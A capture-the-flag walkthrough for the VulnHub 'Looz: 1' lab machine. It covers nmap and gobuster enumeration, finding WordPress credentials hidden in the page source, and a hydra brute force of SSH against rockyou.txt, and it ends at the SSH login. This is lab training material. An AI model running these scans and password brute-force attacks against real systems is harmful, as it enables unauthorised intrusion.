:::::::::::::: page
# Looz: 1 {#looz-1 .title}

\

## 

## Looz: 1

- **[Looz: 1 ]{style="color:#060f94;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/looz-1,732/>



- Now unzip the file .
- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#f6d32d;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.102
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.102
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.102
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.102
:::

1.  [Web Enumeration]{style="color:#f6d32d;"} :

- IP visit in browser : <http://192.168.2.102>
- Directory Brute force on port 8081 :

::: codebox
    gobuster dir -u http://192.168.2.102:8081 -w /usr/share/wordlists/dirb/common.txt
:::



- Visit the /wp-admin the redirect the page :
  <http://192.168.2.102:8081/wp-admin/>

<!-- -->

- Entry in host file :

::: codebox
    nano /etc/hosts
:::

- 

::: codebox
    192.168.2.102 wp.looz.com
:::



- Then refresh the page :



- Now go to 80 port url and inpect the code for hidden username and
  password :



::: codebox
    Username : john
    Password : y0uC@n'tbr3akIT
:::

- Enter username and password then you login the page :



- Login successful : <http://wp.looz.com/wp-admin/>



- Go to user section and I found there was another user that had
  administrator role :



- Used hydra to brute force the SSH login :

::: codebox
    hydra -l gandalf -P /opt/rockyou.txt ssh://192.168.2.102 -t 16
:::

 It take something 1 hour to find password .

- Now login with ssh connection :

::: codebox
    ssh gandalf@192.168.2.102
:::

 
::::::::::::::
